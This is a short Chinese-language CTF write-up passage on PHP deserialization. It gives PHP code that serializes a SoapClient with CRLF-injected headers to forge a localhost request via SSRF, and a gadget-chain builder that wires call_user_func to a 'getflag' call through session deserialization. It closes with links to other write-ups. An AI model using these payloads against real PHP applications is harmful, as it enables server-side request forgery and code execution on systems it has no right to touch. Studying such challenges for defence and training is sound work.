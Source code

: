 ssrf生成session反序列化

```php
<?php
$target = 'http://127.0.0.1/interface.php';
$headers = array(
    'X-Forwarded-For: 127.0.0.1',
    'Cookie: user=xZmdm9NxaQ==',
);

$b = new SoapClient(null, array('location' => $target, 'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers),'uri'=>'aabb'));
$a = serialize($b);
$a = str_replace('^^', "\r\n", $a);
echo $a;
// echo urlencode($a);

```

序列化生成, 触发反序列化后进而触发session的反序列化

```php
$first = new bb();
$second = new aa();
$third = new cc();
$four = new ee();
$first ->mod1 = $second;
$third -> mod1 = $four;
$f = new dd();
$f->flag='Get_flag';
$f->b='call_user_func';
$four -> str1 = $f;
$four -> str2 = "getflag";
$second ->mod2['test2'] = $third;

echo serialize($first);
```

> PHPSESSID随便指定写一个比如kk默认情况下会生成sess_kk session文件

![image-20211114141933229](/images/php的两类反序列化/image-20211114141933229.png)



![image-20211114141940499](/images/php的两类反序列化/image-20211114141940499.png)



参考

https://www.smi1e.top/lctf2018-bestphps-revenge-%E8%AF%A6%E7%BB%86%E9%A2%98%E8%A7%A3/

 http://www.91ri.org15925.html

https://skysec.top/2017/08/16/jarvisoj-web/#PHPINFO

https://blog.spoock.com/2016/10/16/php-serialize-problem/

https://www.freebuf.com/vuls/202819.html

